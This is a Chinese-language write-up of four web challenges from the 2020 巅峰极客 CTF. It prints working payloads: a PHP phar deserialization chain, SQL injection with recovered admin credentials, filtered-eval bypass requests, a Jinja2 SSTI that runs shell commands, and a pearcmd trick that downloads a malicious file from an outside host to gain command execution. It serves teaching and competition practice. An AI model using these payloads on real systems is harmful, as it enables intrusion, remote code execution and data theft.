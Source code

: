 # 巅峰极客2020

**文章首发于[安全客](https://www.anquanke.com/post/id/218977)**

## babyphp2

文件包含：http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/index.php?action=../../../../../../../../../../../var/www/html/login
登入接口ban掉：
```
`,\,@,%,#
```
```
[11:00:52] 200 -   68B  - /index.php
[11:00:53] 200 -   68B  - /index.php/login/
[11:01:33] 200 -  583B  - /login.php
[11:03:57] 403 -  335B  - /server-status
[11:04:19] 403 -  336B  - /server-status/
[11:05:21] 200 -  422B  - /upload.php
[11:05:22] 403 -  329B  - /upload/
[11:05:41] 301 -  383B  - /upload  ->  http://eci-2ze5jqyhfniloont8y3x.cloudeci1.ichunqiu.com/upload/
[11:06:20] 200 -    4KB - /www.zip
```

构造反序列化链：`dbCtrl::__destruct->User::__toString->Reader::__set`

```php
<?php

Class Reader{
    public $filename;
    public $result;
    public function __construct(){

    }

}

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct(){
        $this->backup="/flag";
        $this->nickname=new Reader();
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="p3rh4ps";
    public $dbpass="p3rh4ps";
    public $database="p3rh4ps";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct(){
        $this->token=new User();
    }
}

$a = new dbCtrl();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); 
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```


`compress.zlib://phar://phar.phar/test.txt绕过限制`



##  babyback

php:5.6.40



robots.txt



```
User-agent: *
Disallow: /admin
```

```
[12:31:50] 200 -   38B  - /admin/
[12:31:50] 200 -   38B  - /admin/?/login
[12:31:50] 200 -   38B  - /admin/index.php
[12:31:57] 200 -   48B  - /check.php
[12:32:13] 200 -   33B  - /robots.txt
[12:41:07] 200 -   29B  - /admin/.bowerrc
[12:41:26] 301 -  185B  - /admin/assets  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/assets/
[12:41:28] 200 -    1KB - /admin/bower.json
[12:41:38] 301 -  185B  - /admin/images  ->  http://eci-2ze91js64coeqpjda9u8.cloudeci1.ichunqiu.com/admin/images/
[12:41:39] 200 -   38B  - /admin/index.php
[12:41:57] 200 -  620B  - /admin/package.json
```
check.php 过滤了： 

```
",',-,=,;,select
```



```
username=aaaa\&password= /sleep(5)%23bbbb
```



存在sql注入

```
账号密码
admin
uAreRigHt
```

![image-20201020155506678](https://raw.githubusercontent.com/Explorersss/photo/master/20201020155506.png)

```
EVAL($COMMAND."=FALSE");
过滤：;,",', ,|,`,^,\,;,/,*,(,),&,$,#,f,F
```

任意文件包含：
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrD05yt5m
Content-Length: 161

------WebKitFormBoundaryrD05yt5m
Content-Disposition: form-data; name="command"

?><?=include<<<DDDD
.bowerrc
DDDD
?>
------WebKitFormBoundaryrD05yt5m--

```

读取flag
```
POST /admin/ HTTP/1.1
Host: eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze3ccxvzrnduzhd4u54.cloudeci1.ichunqiu.com/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1600698604,1601088882; UM_distinctid=174b11256cb2fd-030f86f83a6db3-333769-240000-174b11256cd6f1; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1601100971; PHPSESSID=aabua1gfiqc9s8i13u3iqace72; __jsluid_h=89eac162499bc32092c0474accd770c5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

command=%3f%3e%3c%3f%3dinclude%7e%3c%3c%3cDDDD%0d%0a%D0%99%93%9E%98%0d%0aDDDD%0d%0a%3f%3e
```

## babyflask

`GET /loged?name=%7B%7B2*2%7D%7D`
存在SSTI
模板引擎jinja2

``````
http://eci-2ze3domag0jprtzax0lx.cloudeci1.ichunqiu.com:8888/loged?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}{%%20if%20c.__name__==%27_IterationGuard%27%20%}{{%20c.__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27cat%20/flag%27).read()%22)%20}}{%%20endif%20%}{%%20endfor%20%}

``````

拿flag



## MeowWorld

任意文件读取

hint:register_argc_argv

```
register_argc_argv	TRUE	
由于该设置为 TRUE，将总是可以在 CLI SAPI 中访问到 argc（传送给应用程序参数的个数）和 argv（包含有实际参数的数组）。

对于 PHP 4.3.0，在使用 CLI SAPI 时，PHP 变量 $argc 和 $argv 已被注册并且设定了对应的值。而在这之前的版本，这两个变量在 CGI 或者 模块 版本中的建立依赖于将 PHP 的设置选项 register_globals 设为 on。除了版本和 register_globals 设定以外，可以随时通过调用 $_SERVER 或者 $HTTP_SERVER_VARS 来访问它们。例如：$_SERVER['argv']
```



https://khack40.info/camp-ctf-2015-trolol-web-write-up/

找到一个类似的题目，但是他们是用变量覆盖来执行

阅读pearcmd的代码发现：`if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv']))`

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200926190107.png)

```
http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?list+install+--installroot+/tmp/+http://ccreater.top:60006/install.php++++++++++++++$&f=pearcmd&
```

后面多余部分并不影响我们下载恶意文件





`http://eci-2zeguuukox00jv0u113l.cloudeci1.ichunqiu.com/?f=/tmp/tmp/pear/download/install`

任意命令执行